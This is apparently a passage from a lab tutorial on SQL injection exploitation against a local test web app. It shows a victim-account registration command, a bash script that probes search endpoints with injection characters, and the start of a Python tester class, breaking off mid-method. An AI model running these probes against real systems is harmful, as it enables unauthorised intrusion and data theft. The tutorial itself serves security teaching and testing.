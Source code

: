 ```bash
curl -X POST $TARGET_URL/api/auth/register \
     -H "Content-Type: application/json" \
     -d '{"email":"victim@test.com","password":"password123","firstName":"Test","lastName":"Victim"}'
```

## Tutorial 1: SQL Injection Exploitation

### Phase 1: Discovery and Reconnaissance

#### Step 1.1: Identify Injection Points

```bash
#!/bin/bash
# SQL Injection Discovery Script

TARGET_URL="http://localhost:3000"
ENDPOINTS=(
    "/api/tasks/search?query="
    "/api/users/search?name="
    "/api/comments/search?content="
)

echo "=== SQL Injection Discovery ==="

for endpoint in "${ENDPOINTS[@]}"; do
    echo "Testing endpoint: $endpoint"
    
    # Test basic injection characters
    for payload in "'" '"' ";" "--" "/*"; do
        response=$(curl -s -w "%{http_code}" -o /tmp/sqli_test.html \
                       "${TARGET_URL}${endpoint}${payload}")
        
        if [ "$response" = "500" ]; then
            echo "  ✓ Potential SQL injection at: $endpoint with payload: $payload"
            echo "  Response saved to /tmp/sqli_test.html"
        fi
    done
done
```

#### Step 1.2: Confirm SQL Injection Vulnerability

```python
#!/usr/bin/env python3
"""
SQL Injection Confirmation Script
Tests for different types of SQL injection vulnerabilities
"""

import requests
import time
import sys

class SQLInjectionTester:
    def __init__(self, base_url, auth_token=None):
        self.base_url = base_url
        self.session = requests.Session()
        if auth_token:
            self.session.headers.update({'Authorization': f'Bearer {auth_token}'})
    
    def test_error_based_injection(self, endpoint, parameter):
        """Test for error-based SQL injection"""
        print(f"\n[+] Testing error-based injection on {endpoint}")
```
